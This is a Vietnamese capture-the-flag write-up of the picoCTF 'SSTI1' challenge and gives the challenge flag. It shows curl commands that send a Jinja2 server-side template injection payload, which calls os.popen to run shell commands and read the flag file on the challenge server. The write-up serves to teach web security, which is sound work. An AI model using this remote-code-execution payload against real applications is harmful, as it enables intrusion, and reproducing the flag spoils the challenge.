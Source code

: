 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  
> 🏁 Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
Bây giờ thì đến với việc sử dụng các payload khác để khai thác hoạc RCE.
Sử dụng câu lệnh ``curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L`` để kiểm tra việc lỗi vẫn hoạt động, kết quả trả về là :
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Tấn công bằng câu lệnh ``curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/`` nhận lại kết quả là :
```
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```
```markdown
| Ghi chú quan trọng |
|--------------------|
| Đây là nội dung bạn muốn làm nổi bật |
